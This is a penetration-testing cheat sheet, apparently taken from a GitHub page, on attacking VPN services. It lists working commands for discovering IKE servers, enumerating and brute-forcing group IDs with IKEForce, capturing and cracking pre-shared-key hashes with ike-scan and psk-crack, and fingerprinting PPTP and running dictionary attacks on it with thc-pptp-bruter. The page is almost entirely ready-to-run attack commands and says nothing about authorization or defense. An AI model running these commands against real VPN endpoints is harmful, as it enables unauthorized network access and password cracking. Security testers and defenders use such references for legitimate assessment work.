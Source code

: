 

###     VPN Hacking

        Identify VPN servers:


```
        ./udp-protocol-scanner.pl -p ike $ip

```


        Scan a range for VPN servers:


```
        ./udp-protocol-scanner.pl -p ike -f ip.txt

```




```
        Use IKEForce to enumerate or dictionary attack VPN servers:
        pip install pyip
        git clone https://github.com/SpiderLabs/ikeforce.git
        Perform IKE VPN enumeration with IKEForce:
        ./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
        Bruteforce IKE VPN using IKEForce:
        ./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
        Use ike-scan to capture the PSK hash:
        ike-scan
        ike-scan TARGET-IP
        ike-scan -A TARGET-IP
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
        ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```


        
        Use psk-crack to crack the PSK hash


```
        psk-crack hash-file.txt
        pskcrack
        psk-crack -b 5 TARGET-IPkey
        psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
        psk-crack -d /path/to/dictionary-file TARGET-IP-key

```


    PPTP Hacking


```
        Identifying PPTP, it listens on TCP: 1723
        NMAP PPTP Fingerprint:
        nmap –Pn -sV -p 1723 TARGET(S)
        PPTP Dictionary Attack
        thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```
